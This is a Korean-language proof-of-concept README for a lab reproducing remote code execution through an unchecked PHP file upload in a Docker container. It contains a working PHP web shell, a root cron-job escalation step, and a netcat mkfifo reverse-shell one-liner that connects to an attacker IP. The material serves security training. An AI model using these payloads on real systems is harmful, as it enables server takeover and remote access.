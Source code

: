 # 1. RCE via File Upload 취약점 이란?

파일 업로드 취약점은 서버가 업로드된 파일에 대해 적절한 검증을 수행하지 않아, 공격자가 임의의 코드를 포함한 파일을 업로드하고 실행할 수 있게 되는 보안 이슈입니다.

- 시스템 명령어 실행 (Remote Command Execution, RCE)
- 서버 권한 상승 등 추가 공격
- Reverse Shell

# 2. PoC 목적 및 개요

본 PoC는 파일 업로드 취약점을 이용해 RCE를 재현합니다.

공격자는 악성 PHP 웹쉘을 업로드하고 이를 실행함으로써 서버 내에서 임의의 시스템 명령을 원격으로 실행할 수 있음을 실습 환경에서 확인할 수 있습니다.

# 3. 환경 구성

- 언어 및 환경 : PHP 8.2 (내장 웹서버 사용)
- 구성 파일
    - `upload.php`: 파일 업로드
    - `Dockerfile`: PHP + cron + supervisor 설치 도커 이미지 빌드 설정
- Docker 환경
    - 컨테이너 실행 시 PHP 웹서버가 `0.0.0.0:8080`에서 실행
    - 업로드된 파일은 `uploads/` 디렉토리에 원본 파일명으로 저장

# 4. 실행 방법

1. Docker 이미지 가져오기
    
    ```bash
    $ docker pull dukbong/poc:2025-06-fileupload
    
    ```
    
2. Docker 컨테이너 실행
    
    ```bash
    docker run --name fileupload -p 8080:8080 dukbong/poc:2025-06-fileupload
    
    ```
    
3. Docker 컨테이너 내부 설정
    - root 권한으로 접속
    
    ```bash
    docker exec -it --user root fileupload /bin/bash
    ```
    
    - root 권한으로 cron 작성
    
    ```bash
    vi /etc/cron.d/fileupload
    # vi가 없는 경우 apt update && apt install -y vim-tiny
    
    * * * * * root /tmp/fileupload
    ```
    
    - 권한 설정
    
    ```bash
    chmod 744 /etc/cron.d/fileupload
    ```
    
4. 웹 애플리케이션 접속
    
    ```bash
    http://localhost:8080
    ```
    
5. 주요 엔드포인트
    
    
    | 경로 | 설명 | 메소드 | 비고 |
    | --- | --- | --- | --- |
    | / | 파일 업로드 페이지 | GET, POST | 취약점 시연 대상 |
    | /uploads/{file_name} | 파일 경로 | GET |  |
6. 예시 Web Shell 코드
    
    ```php
    <?php
    if (isset($_POST['cmd'])) {
        echo "<pre>";
        system($_POST['cmd']);
        echo "</pre>";
    }
    ?>
    
    <form method="POST">
        <input type="text" name="cmd" placeholder="명령어 입력" style="width: 300px;">
        <button type="submit">실행</button>
    </form>
    ```
    

# 5. 재현 절차

1. 웹 페이지 접속 후 임의의 PHP web shell 파일 (예: `shell.php`) 업로드 합니다.
2. 업로드 성공 후 `/uploads/shell.php` 로 접근합니다.
3. 입력창에 작성한 명령어가 실행되어 결과가 출력 되는 걸 확인합니다.
4. `/etc/cron.d` 폴더 안에 있는 `fileupload` 파일을 확인합니다.
5. 공격자 PC에서 `ifconfig`를 통해 IP를 확인합니다.
6. 공격자 PC에서 `nc -nlvp 9999`로 9999 포트를 리스닝 합니다.
7. `Reverse Shell Cheat Sheet`를 활용하여 스크립트를 만듭니다.
    1. 참고 사이트 : https://www.revshells.com/
    2. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|**sh** -i 2>&1|nc 공격자IP **9999** >/tmp/f`
8. 아래 악성 스크립를 통해 스케줄러에서 실행되는 파일을 수정합니다.
`printf 'cheat sheet \n' > /tmp/fileupload && chmod +x /tmp/fileupload` 
    1. 마지막 빈줄 삽입이 없는 경우 명령어가 무시되는 경우가 발생합니다.

# 6. 참고 사항 (VirtualBox 환경)

- Kali Linux가 VirtualBox에 설치되어 있는 경우
    - 설정 → 네트워크 → 어댑터1 → **'브리지 어댑터'** 설정
    - 인터페이스 이름은 실제 사용하는 네트워크(Wi-Fi/LAN 등)로 지정
    - 설정 후 재시작 필요합니다.
- 동일 물리 네트워크 상의 다른 장비 사용 시 별도 설정 불필요합니다.
